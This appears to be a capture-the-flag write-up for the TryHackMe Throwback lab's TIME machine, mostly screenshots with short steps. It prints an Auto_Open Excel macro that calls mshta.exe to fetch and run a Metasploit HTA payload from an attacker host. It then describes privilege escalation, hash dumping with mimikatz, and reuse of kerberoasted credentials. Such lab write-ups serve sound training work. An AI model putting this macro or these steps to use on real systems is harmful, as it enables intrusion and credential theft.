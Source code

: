 # TryHackMe-THROWBACK-TIME(100.20.34.176)

Since we ran socks4 proxy on port 1080 we use nmap along with proxychains to see if we can hit a port on TIME machine 

<img src="https://imgur.com/Oua6jV6.png"/>

So we can access the web page

<img src="https://imgur.com/Ap23uHS.png"/>

Going back to MAIL machine to get reset link by logging in as `MurhphyF`

<img src="https://imgur.com/ct7QiLo.png"/>

<img src="https://imgur.com/C2GtwAZ.png"/>

murphyf
PASSWORD

Now we need to update our `/etc/hosts` file

<img src="https://imgur.com/PoMKmTj.png"/>

We updated the password through the reset link and can login with those

<img src="https://imgur.com/bqC9YLA.png"/>

Create a microsoft execl macro document having this macro in it using metasploit hta server

<img src="https://imgur.com/Dc9SkJn.png"/>

```
Sub HelloWorld()
    PID = Shell("mshta.exe http://10.50.31.16:8000/j4KCBrR.hta")
End Sub

Sub Auto_Open()
    HelloWorld
End Sub
```

Where that .hta is generated through metasploit

<img src="https://imgur.com/hH3CtYv.png"/>

Upload that document

<img src="https://imgur.com/wMsI47W.png"/>

You will get a shell

<img src="https://imgur.com/rPVhUeX.png"/>

<img src="https://imgur.com/c50uP96.png"/>

By typing `sysinfo`

<img src="https://imgur.com/f8zyeGj.png"/>

We can see that we are on a 64 bit windows architecture but on 32 bit merterpreter session so we need to migrate to a 64 bit process. Running command `ps` to check currently running processes

<img src="https://imgur.com/bdOCw2v.png"/>

Here we need to identify the process which is running as `NT AUTHORITY\SYSTEM` also running as a 64 bit 

<img src="https://imgur.com/463bpoZ.png"/>

So we see this statisfying our requirements 

<img src="https://imgur.com/4hK07Bz.png"/>

And now we are the highest privileged user  also now our meterpeter session is on 64 bit  architecture

<img src="https://imgur.com/E32Xkih.png"/>

We can now run commands like mimikatz , hashdump 

<img src="https://imgur.com/QbbtiWT.png"/>

We have successfully dumped the hashes of the accounts on this machine

<img src="https://imgur.com/VeUFkA8.png"/>

Using proxychains we ssh with `Timekeeper's` credentials

<img src="https://imgur.com/1nIqZ4k.png"/>

Switch to directory where mysql.exe is 

<img src="https://imgur.com/U4SGngW.png"/>

Using the password from the kerberoasted mysql service account

<img src="https://i.imgur.com/rmE7npi.png"/>

<img src="https://imgur.com/4XA3GzU.png"/>

<img src="https://imgur.com/txG4w4O.png"/>

<img src="https://imgur.com/xzlIeYn.png"/>

<img src="https://imgur.com/bQ29SjC.png"/>

Save the list of usernames you found from `domain_users` database 

<img src="https://imgur.com/h5Eomzj.png"/>

We can utilize the same list of passwords we used to get access to Throwbacks mail

<img src="https://imgur.com/oEVEw8H.png"/>

<img src="https://imgur.com/TctWVPF.png"/>